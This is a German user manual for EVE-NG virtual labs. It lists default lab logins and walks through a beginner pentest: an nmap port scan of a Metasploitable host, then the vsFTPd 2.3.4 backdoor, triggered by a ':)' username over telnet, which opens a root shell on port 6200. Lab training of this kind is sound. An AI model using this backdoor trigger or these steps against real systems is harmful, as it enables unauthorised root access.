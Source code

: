 ## Benutzerhandbuch für Virtuelle Labs 

Dies ist das offizielle Benutzerhandbuch für das erstellen und importieren von virtuellen EVE-NG Labs. Außerdem wird hier erklärt, wie man einen Penetrationstest anhand eines Beispiel mit Metasploit durchführt.

### Vorbereitungen treffen

Auf dem Pentesting Computer läuft die Linux Distribution Kali Linux. Über den Browser navigiert man auf die EVE-NG Instanz. Folgende Daten sind wichtig für die weitere Nutzung:

**EVE-NG Zugangsinformationen:**
* IP-Adresse: 10.0.0.200
* Eingabe mittels https://10.0.0.200
* Nutzername: admin
* Passwort: eve

**Pentesting Computer Zugangsinformationen:**
* Nutzername: pentester
* Passwort: hacking

Außerdem sollte eine Netzwerkverbindung bestehen. Eine Netzwerkkonfiguration bekommt man für gewöhnlich über den Router mittels DHCP. Sollte das nicht funktionieren, fragen Sie den Netzwerkadministrator, oder vergeben Sie eine statische IP-Adresse!

### Die EVE-NG Benutzeroberfläche

Die EVE-NG Benutzeroberfläche besteht im wesentlichen sehr schlicht und simpel aufgebaut. Auf der unteren Leiste, sieht man gängige Operationen für die virtuellen Labs. Es können virtuelle Labs erstellt, importiert und gelöscht werden. Zudem kann man auch die Ansicht Aktualisieren.

![Eve-NG Übersicht](benutzerhandbuch-nutzung-virtueller-labs/eve-ng-overview.png)

### Was es sonst noch zu beachten gibt

Damit mehrere gleichzeitig mit eigenen Labs oder auch gemeinsam an einem Lab arbeiten können, muss ein neuer Nutzer angelegt werden. Dazu geht man in dem Bereich *Management > Usermanagement* und legt dort entsprechend einen neuen Nutzer an

![Nutzer anlegen](benutzerhandbuch-nutzung-virtueller-labs/create-user.png)

Erforderliche Daten:
* User Name
* Password
* Password Confirmation
* POD 

### Starterkit - Beispiel fürs Hacken von Diensten und Computern

Im folgenden Szenario wird ein Beispiel gezeigt, wie man virtuelle Labs für Penetrationstests nutzen kann. Hier wird ein fertiges bereits erstelles Lab genutzt um den Einstieg dementsprechend zu vereinfachen. Natürlich kann man auch für später ein eigenes Lab erstellen. Das ist ja nämlich der Sinn des ganzen.

#### Fertiges vLab benutzen

1. Virtuelles Lab importieren

Dazu geht man unter das Symbol *Hochladen* was für Importieren steht. Danach öffnet sich ein Dialogfenster mit der Aufforderung eine Datei auszuwählen. Eine ZIP-Datei:

![Lab importieren](docs/assets/lab-import.png)

2. ZIP Datei upload durchführen

Dann ist noch ein Upload Schritt notwendig, der die Datei in den Transit befördert :) Dazu geht man oben rechts auf Upload:

![Lab Upload](docs/assets/lab-upload.png)

3. Öffnen des Labs

Mit einem Klick auf das vLab erscheint ein Informationsfenster. Unter den Metadaten steht dann *Open*. Nach einem Klick gelangt man in das virtuelle Labor:


![Lab Open](docs/assets/lab-open.png)

#### Übersicht des Pentesting Szenarios

Im folgenden sieht man das Pentesting Szenario, welches bereits vorbereitet wurde. Darin erkennt man eine Cisco ASA Firewall, einen Cisco Switch, eine Kali Linux Maschine und ein anfälliges Gerät mit Schwachstellen. Dieser anfällige Computer ist ein sogenanntes Metasploitable. Das ist perfekt für das Kennenlernen von Hackingabläufen. Vor allem für Einsteiger:

![Lab Übersicht](docs/assets/lab-overview.png)

1. Virtuelle Maschinen einschalten

Die Netzwerkgeräte und Maschinen müssen erst angeschaltet werden. Dazu markiert man alle Geräte im Szenario und aktiviert diese über einen Rechtsklick auf ein leeres Feld:


![Start Geräte](docs/assets/start-selected-devs.png)

#### Beispiel Szenario - vsFTPd exploit

Auf dem Metasploitable läuft auf dem Port 21 eine vsFTPd Version, die eine Backdoor eingebaut hat. Diese Backdoor wurde von einem unbekannten Eindringling eingebaut.

1. Kali Linux Terminal öffnen

Mit einem Doppelklick auf die Kali Linux Maschine öffnet sich ein neues Fenster mit oder Oberfläche des Gerätes. Nach einloggen in Kali Linux gelangt man auf einem Linux Homebildschirm. Darauf einfach den Terminal starten.

In diesem Beispiel gehen wir davon aus, dass folgende IP-Adressen vergeben sind:
* Kali: 10.0.0.22
* Metasploitable 10.0.0.30

Die IP-Adressen werden bei dir sicherlich anders sein. Dazu kann man einfach mit diesem Befehl die IP-Adresse von der Maschine anzeigen lassen:

```bash
ip addr
```

2. Ports von Metasploitable scannen

Mithilfe von NMAP können alle offenen Ports gescannt werden. Dazu kann einfach die ganze Range angegeben werden:

```bash
root@kali:/tmp# nmap -p0-65535 10.0.0.30

Starting Nmap 5.61TEST4 ( http://nmap.org ) at 2022-03-07 21:14 ETC
Nmap scan report for 10.0.0.30 
Host is up (0.00028s latency).
Not shown: 65506 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
512/tcp   open  exec
513/tcp   open  login
514/tcp   open  shell
1099/tcp  open  rmiregistry
1524/tcp  open  ingreslock
2049/tcp  open  nfs
2121/tcp  open  ccproxy-ftp
3306/tcp  open  mysql
3632/tcp  open  distccd
5432/tcp  open  postgresql
5900/tcp  open  vnc
6000/tcp  open  X11
6667/tcp  open  irc
6697/tcp  open  unknown
8009/tcp  open  ajp13
8180/tcp  open  unknown
8787/tcp  open  unknown
39292/tcp open  unknown
43729/tcp open  unknown
44813/tcp open  unknown
55852/tcp open  unknown
```

Im folgenden Output von NMAP kann man also sehen, dass der FTP Port 21 offen ist. Bei Metasploit handelt es sich hier um eine modifizierte Version mit einer Backdoor die wir exploiten können.

3. FTP Backdoor ausnutzen

Mithilfe von Telnet können wir folgendes eingeben um eine Root Shell zu bekommen:

```bash
root@kali:/tmp# telnet 10.0.0.30 21
Trying 10.0.0.30...
Connected to 10.0.0.30.
Escape character is '^]'.
220 (vsFTPd 2.3.4)
user backdoored:)
331 Please specify the password.
pass invalid
^]
telnet> quit
Connection closed.
```

Was ist hier nun passiert? Also die Backdoor kann man so ausnutzen, indem man sich auf den FTP Port über Telnet connected. Dabei wird auch gleich die Version direkt angezeigt. Danach kommt keine Aufforderung mehr und wir können wir Code in die CLI Injecten. Wenn wir nämlich ":)" angeben, wird automatisch ein neuer Port geöffnet nämlich Port 6200. Dieser gibt uns eine versteckte Rootshell:


```bash
                       
root@kali:/tmp# telnet 10.0.0.30 6200
Trying 10.0.0.30...
Connected to 10.0.0.30.
Escape character is '^]'.
id;
uid=0(root) gid=0(root)
```

### Fazit 

Das waren natürlich jetzt nur ein paar Beispiele. Natürlich gibt es noch viel mehr, was man mit Metasploitable anstellen kann. Unter folgendem Link kann man sich weiter einlesen in alle Schwachstellen, Backdoors und verfügbare Exploits, in Form von Code Injections und Python bzw. Bash oder auch C Scripts.


[metasploitable walkthroughs](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide). 

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/MrInfusion/benutzerhandbuch-nutzung-virtueller-labs/settings/pages). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support oder Kontakt

Habt ihr noch Fragen oder irgendwelche Probleme? Dann könnt ihr euch an die Netzwerkadministratoren wenden.